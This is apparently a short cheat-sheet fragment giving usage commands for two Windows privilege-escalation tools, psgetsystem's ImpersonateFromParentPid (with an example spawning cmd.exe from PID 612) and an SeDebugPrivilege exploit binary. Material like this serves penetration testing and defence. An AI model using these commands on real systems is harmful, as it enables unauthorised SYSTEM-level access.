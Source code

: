 ## [psgetsystem](https://github.com/decoder-it/psgetsystem)
```
. .\psgetsys.ps1 

ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
ImpersonateFromParentPid -ppid 612 -command "C:\Windows\System32\cmd.exe" -cmdargs ""
```
## [SeDebugPrivilege.exe](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
```
SeDebugPrivesc.exe <PID> <Program and Arguments>
```
